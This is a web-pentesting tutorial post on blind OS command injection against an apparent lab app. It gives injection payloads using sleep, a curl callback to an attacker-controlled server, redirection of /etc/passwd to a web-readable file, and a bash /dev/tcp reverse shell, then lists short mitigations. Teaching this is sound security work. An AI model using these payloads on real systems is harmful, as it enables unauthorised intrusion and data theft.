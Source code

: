 ```yaml
---
title: Blind Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Blind Command Injection]
tags: []  
---
```


# Blind Command Injection

***Blind Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS) but  does not return the output from the command within its HTTP response. Blind Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Blind Command Injection

In the below image, we can see that the web interface takes in ip address, and perform certain operation on the ip address. Since no output is returned, we may not know what is happening with our supplied input in the backend.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind1.png)

But we can get command execution if our supplied input is passed to a system shell without being sanitized, anyway , if we attempt to predict, we may write something like this `X [ip]` or `X [ip] X`, where X is our unknown command. By suppliying 127.0.0.1, it will be `X 127.0.0.1` or `X 127.0.0.1 X` 

## Time-Based

Time-Based is a technigue of delaying the response time of a target server by sending a command that will make the server to wait for a given time. Using `sleep`, We make the server to sleep (or wait) for a period of time before sending back a response, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;sleep 10;`, the command will be something like this `X 127.0.0.1;sleep 10;` or `X 127.0.0.1;sleep 10; X`, this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `sleep 10`, this will make the server to sleep for `10 seconds` if our supplied input is executed directly in a system shell.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind2.png)

From the above image no response is received, this means our supplied input is directly executed in a system shell thereby causing it to wait for `10 seconds`.

## Out-Of-Bound 

Out-Of-Bound is a technigue that allows you to force the target server into sending request to your controlled server. There are different ways to get this done, using `curl`, `ping`, `nslookup` and so on, By using `curl`, We can make the server to send an http request to our controlled server, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;curl http://controledhttpserver/;`, the command will be something like this `X 127.0.0.1;curl http://controledhttpserver/;` or `X 127.0.0.1;curl http://controledhttpserver/; X`,this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `curl http://controledhttpserver/`, if our supplied input is executed directly in a system shell, it will make the server to issue http request to our controlled server.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3.png)

*receiving http request*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3kali.png)

## Redirection To A File

We can also determine whether or not our supplied input is directly executed in a system shell by redirecting the output of the executed command to a file that can be accessible from web interface. By supplying this `127.0.0.1;uname -a > /var/www/cmd.txt;`, the command will be something like this `X 127.0.0.1;uname -a > /var/www/cmd.txt;` or `X 127.0.0.1;uname -a > /var/www/cmd.txt; X`,  if our supplied input is executed directly in a system shell, it will create a new cmd.txt file in the root of the server(/var/www/) and redirect the output of the executed command to the file `/var/www/cmd.txt`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5.png)

We can access the file by visiting it

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5res.png)

We can also read the content of a local file i.e `/etc/passwd` by supplyig this payload `127.0.0.1;cat /etc/passwd > /var/www/cmd.txt;`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6.png)

*content of /etc/passwd*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6res.png)

# Exploitation

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7.png)

*receiving reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7kali.png)


# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

